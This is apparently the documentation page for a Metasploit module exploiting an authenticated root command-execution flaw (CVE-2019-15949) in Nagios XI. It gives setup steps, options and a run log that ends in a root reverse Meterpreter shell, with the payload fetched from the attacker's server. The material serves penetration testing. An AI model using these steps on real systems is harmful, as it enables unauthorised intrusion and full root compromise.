 ## Introduction
This module exploits a vulnerability in Nagios XI before 5.6.6 in order to execute arbitrary commands as root.

The module first checks if the supplied credentials are valid and belong to a user with permissions to modify plugins. It then exploits these permissions by uploading a malicious plugin to the target and subsequently sending an HTTP GET request to profile.php?cmd=download. This request downloads a system profile from the server and in the process launches the getprofile.sh script as root via a passwordless sudo entry. This script executes the malicious plugin as root.

For all supported payloads other than cmd/unix/reverse_bash, the module first starts an HTTP Server to serve the payload, and then writes a wget request for the payload to the malicious plugin. When the plugin is executed, the target requests the payload, which is then sent to the target and executed as root. However, this method will only work if wget is installed on the target, which may not necessarily be true, for instance if Nagios XI is running on a minimal/custom CentOS installation. In the latter case, the payload cmd/unix/reverse_bash must be selected. If the module detects this payload, it does not start an HTTP Server, but writes the payload directly to the malicious plugin instead, thereby avoiding the need for a wget request. The payload cmd/unix/reverse_bash was chosen because it is the most likely payload to still work on a minimal Linux installation.

Valid credentials for a user with administrative privileges are required. This module was successfully tested on Nagios XI 5.6.5 running on CentOS 7.

## Vulnerable system
Nagios XI before 5.6.6.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/nagiosxi_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set SRVHOST [IP]`
6. Do: `set USERNAME [username]`
7. Do: `set PASSWORD [password]`
8. Do: `set payload [payload]`
9. Do: `set LHOST [IP]`
10. Do: `set LPORT [port]`
11. Do: `exploit`

## Options
1. `USERNAME`. The username to authenticate with. This user should have permissions to modify plugins. The default setting is `nagiosadmin`, which is the default admin account for Nagios XI systems.
2. `PASSWORD`. The password to authenticate with.
3. `Timeout`. The number of seconds to wait for the exploit to connect back. This value is set at 10 by default because it usually takes a while for the plugin to execute after the GET request to rofile.php?cmd=download is sent. If the module fails with a timeout error the first time, just run it again with a higher Timeout value.

## Scenarios
```
msf5 exploit(linux/http/nagiosxi_authenticated_rce) > show options

Module options (exploit/linux/http/nagiosxi_authenticated_rce):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   PASSWORD   P@ssw0rd!             yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.1           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                    yes       The target port (TCP)
   SRVHOST    192.168.1.2           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080                  yes       The local port to listen on.
   SSL        false                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                     yes       Base path to NagiosXI
   Timeout    10                    yes       Number of seconds to wait for the exploit to connect back)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin           yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/nagiosxi_authenticated_rce) > run
[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Found Nagios XI application with version 5.6.5.
[*] Starting web server
[*] Using URL: http://192.168.1.2:8080/eFFP5lYvZ8eCnR0
[*] Uploading malicious 'check_ping' plugin...
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] 192.168.91.1:80 - Payload request received: /eFFP5lYvZ8eCnR0
[*] Sending payload...
[*] Sending stage (3021284 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.1:56510) at 2020-02-27 16:27:49 +0100
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.
[*] Server stopped.
sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0

```
## References
1. <https://github.com/jakgibb/nagiosxi-root-rce-exploit>
2. <https://nvd.nist.gov/vuln/detail/CVE-2019-15949>